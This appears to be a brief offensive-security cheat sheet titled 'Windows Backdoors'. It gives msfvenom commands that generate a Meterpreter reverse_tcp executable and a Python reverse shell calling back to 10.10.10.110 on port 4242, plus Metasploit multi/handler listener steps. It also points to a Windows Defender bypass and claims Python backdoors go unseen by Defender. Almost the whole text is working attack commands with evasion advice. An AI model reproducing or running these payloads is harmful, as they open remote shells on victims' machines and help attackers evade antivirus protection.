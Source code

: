 Windows Backdoors:

Payloads: (No chance beacause of windows defender)

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe<br>
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py

Working exploit that avoids windows defender:<br>
https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon

Host:
<br>
msfconsole<br>
use exploit/multi/handler<br>
set payload windows/meterpreter/reverse_tcp<br>
set LHOST [ip]<br>
set LPORT [port]<br>
exploit<br>
<br>
Python backdoors are safer, as they are not seen by windows defender. THere is always a risk with the firewall though.
